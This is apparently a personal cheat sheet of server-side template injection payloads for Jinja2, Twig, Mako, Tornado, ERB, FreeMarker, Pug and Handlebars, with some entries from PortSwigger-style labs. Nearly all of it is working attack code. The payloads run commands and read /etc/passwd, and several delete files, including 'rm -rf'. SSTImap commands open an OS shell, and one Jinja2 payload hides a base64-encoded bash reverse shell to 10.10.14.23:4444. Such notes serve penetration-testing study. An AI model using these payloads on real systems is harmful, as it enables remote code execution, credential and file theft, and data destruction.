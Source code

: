 #php #nodejs #python
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md

1. **Jinja2 (python)/Twig (PHP)** - `{{7*'7'}}`
2. **Jade/Pug** (Node)
	* `#{7 * 7}`
3. Smarty (PHP) - `{'Hello'|upper}`
4. Pug (node)
	* `#{root.process.mainModule.require('child_process').spawnSync('ls', ['-lah']).stdout}`
5. Mako (python)
	* ${7 * 7}
6. handlebars (node)
	* `{{7+7}}`

##### Automation
```bash
git clone https://github.com/vladko312/SSTImap.git

python3 sstimap.py -X POST -u 'http://ssti.thm:8002/mako/' -d 'page='

# Download remote file
python3 sstimap.py -u http://172.17.0.2/index.php?name=test -D '/etc/passwd' './passwd'

# Execute remote command
python3 sstimap.py -u http://172.17.0.2/index.php?name=test -S id

# OS shell
python3 sstimap.py -u http://172.17.0.2/index.php?name=test --os-shell
```

#### Apache FreeMarker #java 
```marker
<#assign rt = "freemarker.template.utility.Execute"?new()>
${rt("rm -rf /something")}
```

#### Mako #python 
```mako
<%
	import os
	x=os.popen('id').read()
%>
${x}
```
// what the fuck is ${x} ?
// not sure if it works

#### Tornado #python 
```tornado
user.name}}{%25import+os%25}{{os.system('rm+/home/carlos/morale.txt')}}
```

#### Twig
[[SSTI twig]]
```twig
{{['id',""]|sort('passthru')}}

{{ _self }}

{{ "/etc/passwd"|file_excerpt(1,-1) }}

{{ ['id'] | filter('system') }}
```

#### [[ERB]]  #ruby
```ruby
<%= eval('system("whoami")') %>
```
```ruby
<%= Dir.entries('/') %>
<%= File.open('/example/arbitrary-file').read %>
```
#### [[jinja]]
```jinja2
{{ config.items() }}

{{ self.__init__.__globals__.__builtins__ }}

{{ self.__init__.__globals__.__builtins__.open("/etc/passwd").read() }}

{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}

{{"".__class__.__mro__[1].__subclasses__()[157].__repr__.__globals__.get("__builtins__").get("__import__")("subprocess").check_output("ls")}}

{{config.__class__.__init__.__globals__['os'].popen('echo${IFS}YmFzaCAtaSA+JiAvZG
V2L3RjcC8xMC4xMC4xNC4yMy80NDQ0IDA+JjE=${IFS}|base64${IFS}-d|bash').read()}}
```


#### handlebars #nodejs 
Exploit:
```handlebars
wrtz{{#with "s" as |string|}}
    {{#with "e"}}
        {{#with split as |conslist|}}
            {{this.pop}}
            {{this.push (lookup string.sub "constructor")}}
            {{this.pop}}
            {{#with string.split as |codelist|}}
                {{this.pop}}
                {{this.push "return require('child_process').exec('rm /home/carlos/morale.txt');"}}
                {{this.pop}}
                {{#each conslist}}
                    {{#with (string.sub.apply 0 codelist)}}
                        {{this}}
                    {{/with}}
                {{/each}}
            {{/with}}
        {{/with}}
    {{/with}}
{{/with}}
```

##### Identification guide
![[identify SSTI.png]]